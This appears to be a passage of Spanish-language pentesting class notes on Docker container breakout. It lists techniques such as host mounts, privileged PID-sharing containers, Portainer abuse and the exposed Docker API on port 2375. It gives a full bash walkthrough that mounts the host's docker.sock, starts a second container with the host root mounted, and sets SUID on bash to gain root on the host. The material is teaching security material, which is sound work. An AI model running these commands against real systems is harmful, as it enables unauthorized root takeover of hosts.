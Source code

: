 # Docker Breakout

Tags: #Linux #DockerBreackout #Escalada #Root #Privilegios 

En la clase actual, exploraremos diversas técnicas para abusar de **Docker** con el objetivo de elevar nuestros privilegios de usuario y escapar del contenedor hacia la máquina host. Examinaremos situaciones específicas y discutiremos las implicaciones de seguridad en cada caso.

Las técnicas que se tratarán en esta clase incluyen:

- Uso de monturas en el despliegue de contenedores para acceder a archivos privilegiados del sistema host. Analizaremos cómo un atacante puede aprovechar las monturas para manipular los archivos del host y comprometer la seguridad del sistema.
- Despliegue de contenedores con la compartición de procesos (**–pid=host**) y permisos privilegiados (**–privileged**). Veremos cómo inyectar un shellcode malicioso en un proceso en ejecución como root, lo que podría permitir al atacante tomar control del sistema.
- Uso de **Portainer** para administrar el despliegue de un contenedor. Discutiremos cómo, mediante el empleo de monturas, un atacante podría ingresar y manipular archivos privilegiados del sistema host y escapar del contenedor.
- Abuso de la **API** de **Docker** por el puerto **2375** para la creación de imágenes, despliegue de contenedores e inyección de comandos privilegiados en la máquina host. Examinaremos cómo un atacante puede explotar la API de Docker para comprometer la seguridad del host y lograr la ejecución de comandos con privilegios elevados.

Al finalizar esta clase, comprenderás las vulnerabilidades potenciales asociadas con Docker y aprenderás a identificar los posibles riesgos de seguridad en entornos basados en contenedores.


## Docker Breakout

Estando dentro de un contenedor Docker vamos a poder escalar privilegios 'escapando' del contenedor. 

* Forma 1
```bash 
❯ docker run --rm -dit -v /var/run/docker.sock:/var/rundocker.sock --name ubuntuServer ubuntu  # Nos crearemos un contenedor 1 de la imagen descargada anteriormente llamada 'ubuntuServer' y le diremos que queremos que el 'docker.sock' de la maquina victima nos lo copie en la misma ruta del contenedor
❯ docker exec -it ubuntuServer bash        # Ingresamos al contenedor 'ubuntuServer' por medio de una bash como root
	❯ apt install docker.io                    # Dentro del contenedor instalamos Docker
	❯ docker images                            # Miramos las imagenes  
	❯ docker ps                                # Miramos los contenedores 
	❯ docker run --rm -dit -v /:/mnt/root --name privesc ubuntu # Desplegaremos un contenedor con una montura de la raiz de la primer maquina y que la monte en el dir /mnt/root del contenedor 2, esto se logra porque nos etsamos comunicando con el unix socket file de la maquina host, la raiz del nuevo contenedor hara alucion a la raiz de la maquina actual (primer maquina) 
	❯ docker exec -it privesc bash        # Ingresamos al contenedor 'privesc' y ahi podremos darle permisos SUID a la bash, por lo que se vera reflejada en la maquina host
```


